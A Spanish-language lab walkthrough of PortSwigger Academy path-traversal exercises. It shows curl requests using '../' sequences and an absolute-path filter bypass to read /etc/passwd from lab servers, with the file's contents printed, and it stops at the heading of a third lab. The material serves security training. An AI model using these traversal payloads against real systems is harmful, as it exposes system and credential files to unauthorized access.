



# Directory Traversal - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

## Índice


## 1. Lab: File path traversal, simple case

Ingresamos al laboratorio y revisando el codigo fuente encontramos un enlace interesante.

```html

```

Entonces, sabemos de la existencia de un recurso, entonces la url sería la siguiente:

```bash
https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=15.jpg
```

Y al acceder nos encontramos con lo siguiente:



Ahora lo que haremos será cambiar la parte donde dice **15.jpg** por nuestro fichero **/etc/passwd**.



Como vemos no nos muestra el contenido de manera directa, así que lo que haremos por comando usando **curl**.

```bash
└──╼ $curl https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```

Y si vamos a la pagina del laboratio vemos que ya la tenemos resuelta :D



## 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass

Revisando el codigo fuente encontramos lo siguiente:

```html

```

Por como resolvimos el ejemplo anterior vemos que podemos obtener  el fichero en la siguiente url:

```bash
https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=64.jpg
```

Lo que haremos será hacer la consulta por **curl** del fichero **../../../etc/passwd**, pero obtenemos el siguiente error:

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=../../../etc/passwd'
"No such file"
```

Al parecer existe alguna seguridad con respecto al Directory traversal, y lo que hace puede que sea filtrar por la cadena **../** , lo que podemos hacer es usar una ruta absoluta como la siguiente.

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
.....
```

## 3. Lab: File path traversal, traversal sequences stripped non-recursively

